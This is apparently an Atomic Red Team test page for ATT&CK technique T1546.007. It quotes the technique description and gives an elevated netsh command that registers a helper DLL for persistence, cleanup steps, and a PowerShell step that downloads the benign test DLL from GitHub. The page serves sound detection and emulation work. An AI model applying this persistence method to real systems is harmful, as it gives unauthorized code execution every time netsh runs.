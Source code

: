 # T1546.007 - Event Triggered Execution: Netsh Helper DLL

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/007)

<blockquote>Adversaries may establish persistence by executing malicious content triggered by Netsh Helper DLLs. Netsh.exe (also referred to as Netshell) is a command-line scripting utility used to interact with the network configuration of a system. It contains functionality to add helper DLLs for extending functionality of the utility.(Citation: TechNet Netsh) The paths to registered netsh.exe helper DLLs are entered into the Windows Registry at <code>HKLM\SOFTWARE\Microsoft\Netsh</code>.

Adversaries can use netsh.exe helper DLLs to trigger execution of arbitrary code in a persistent manner. This execution would take place anytime netsh.exe is executed, which could happen automatically, with another persistence technique, or if other software (ex: VPN) is present on the system that executes netsh.exe as part of its normal functionality.(Citation: Github Netsh Helper CS Beacon)(Citation: Demaske Netsh Persistence)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Netsh Helper DLL Registration](#atomic-test-1---netsh-helper-dll-registration)

<br/>

## Atomic Test #1 - Netsh Helper DLL Registration

You can register a "helper dll" with Netsh as a persistance mechanism. The code in the dll is executed every time netsh.exe is called.
The NetshHelper.dll provided with the atomic will simply launch notepad when netsh.exe is run.

[Blog](https://htmlpreview.github.io/?https://github.com/MatthewDemaske/blogbackup/blob/master/netshell.html)
[Sample DLL code](https://github.com/outflanknl/NetshHelperBeacon)

**Supported Platforms:** Windows

**auto_generated_guid:** 3244697d-5a3a-4dfc-941c-550f69f91a4d

#### Inputs:

| Name        | Description | Type | Default Value                                                 |
| ----------- | ----------- | ---- | ------------------------------------------------------------- |
| helper_file | Path to DLL | path | PathToAtomicsFolder&#92;T1546.007&#92;bin&#92;NetshHelper.dll |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
netsh.exe add helper "#{helper_file}"
taskkill /im notepad.exe /t /f > NUL 2>&1
```

#### Cleanup Commands:

```cmd
netsh.exe delete helper "#{helper_file}"
```

#### Dependencies: Run with `powershell`!

##### Description: Helper DLL must exist on disk at specified location (#{helper_file})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{helper_file}") { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{helper_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.007/bin/NetshHelper.dll" -OutFile "#{helper_file}"
```

<br/>
